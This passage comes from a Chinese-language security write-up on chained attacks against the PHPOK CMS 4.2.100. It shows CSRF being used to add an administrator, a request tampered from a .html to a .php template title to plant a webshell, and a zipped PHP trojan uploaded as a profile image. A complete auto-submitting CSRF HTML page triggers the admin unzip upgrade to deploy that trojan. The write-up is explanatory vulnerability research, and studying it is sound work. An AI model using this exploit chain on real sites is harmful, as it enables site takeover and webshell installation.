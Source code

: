 ![](http://drops.javaweb.org/uploads/images/f7e4d3bf96b5d91697c6c53322ddf5354763dab2.jpg)

可以看到，成功添加了一名管理员。

攻击到这里就结束了吗？并没有！攻击者利用CSRF漏洞成功进入了后台，他还要想办法GetShell！

在后台风格管理-创建模板文件的地方添加一个模板，通过抓包改包的方式绕过前端对文件类型的判断，如图：

![](http://drops.javaweb.org/uploads/images/5d04cf24bbe82b5e6b647f4952146926402ffe36.jpg)

把`GET /phpok/admin.php?c=tpl&f=create&id=1&folder=/&type=file&title=wooyun.html`

改为`GET /phpok/admin.php?c=tpl&f=create&id=1&folder=/&type=file&title=wooyun.php`

可以看到成功添加了.php文件：

![](http://drops.javaweb.org/uploads/images/1df9e5ca6de5f8f9c1d16f1b93fe9346b73fdb2b.jpg)

然后在编辑文件内容为一句话木马即可：

![](http://drops.javaweb.org/uploads/images/1462b1c936acedc8b4e5e7ff101efbabd15975af.jpg)

在此次攻击中，攻击者最后利用后台添加模板处的限制不严格拿到了Webshell，但在此之前使攻击者得以进入后台的却是CSRF漏洞，由此可以看到CSRF在这次攻击中的重要性。

（2）还是4.2.100...

刚才我们是通过CSRF先进入后台，然后利用后台的其他漏洞GetShell,这次我们直接在前台利用CSRF漏洞去GetShell怎么样？

phpok的前台可以上传.zip文件，我们把木马文件test.php压缩为test.zip；

注册一个账号，进入修改资料页面；

选择一个正常的图片，截获数据，如图：

![](http://drops.javaweb.org/uploads/images/5d0c82d2480052d6f37d87a0ccbb612a4b089508.jpg)

![](http://drops.javaweb.org/uploads/images/afeb77b210d30607d9d72271d5004112e2666152.jpg)

然后修改数据，如图：

![](http://drops.javaweb.org/uploads/images/dc96bb7d1c6dcc99d1b95984cb582b50e391f360.jpg)

成功上传.zip文件，记录下文件id号，这里是739。

在后台的程序升级-ZIP离线包升级中的升级操作存在CSRF漏洞，演示如图：

![](http://drops.javaweb.org/uploads/images/f0b4418a2ba3cf0360464a779daa08dbeb783c8b.jpg)

于是攻击者可以构造如下页面：

```
<html>
    <form action="http://localhost//phpok/admin.php?c=update&f=unzip" id="poc" name="poc" method="post">
        <input type="hidden" name="zipfile" value=""/>
        <input type="hidden" name="file" value=""/>
        <input type="submit" name="up" value="submit"/>
    </form>
    <script>
        var t = document.poc;
        t.zipfile.value="739";
        t.file.value="739";
        document.poc.submit();
    </script>
</html>

```
